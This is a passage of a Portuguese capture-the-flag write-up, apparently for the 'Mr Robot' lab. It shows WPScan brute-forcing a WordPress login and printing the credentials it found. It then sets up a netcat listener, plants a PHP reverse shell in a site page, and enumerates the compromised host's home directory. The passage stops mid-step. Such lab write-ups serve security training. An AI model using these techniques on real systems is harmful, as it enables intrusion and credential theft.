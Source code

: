 ```
All Found                                                                                                           
Progress Time: 00:01:05 <=============================                             > (11 / 22) 50.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mich05654, Password: Dylan_2791

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  1 16:36:33 2022
[+] Requests Done: 187
[+] Cached Requests: 6
[+] Data Sent: 54.468 KB
[+] Data Received: 1.399 MB
[+] Memory used: 250.863 MB
[+] Elapsed time: 00:01:26
```

Adicionei um listener para escutar o shell reverse

```rlwrap nc -lvnp 53```

Depois disso eu procurei por um shell reverse por arquivos .php

Achando, eu coloquei no arquivo desejado, copiei e colei no arquivo desejado e então eu carreguei a página do arquivo desejado. O listener captou a seguinte mensagem:

```
listening on [any] 53 ...
connect to [10.9.3.140] from (UNKNOWN) [10.10.171.212] 56885
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:18:48 up  2:24,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
```
Comprovei que estava num shell reverse com os seguintes comandos e resultados:
```
whoami
daemon
hostname
linux
```
Depois disso, fui analisar os usuários disponíveis na máquina com o comando:

```ls /home```

```
robot
```

Entrei nesse diretório com o comando cd e verifiquei com o ls os arquivos

```
key-2-of-3.txt
password.raw-md5
```

Tentei ler o arquivo, mas sem sucesso. Verifiquei se eu tenho permissão para ver esse arquivo com o comando ```ls -lsa```

```
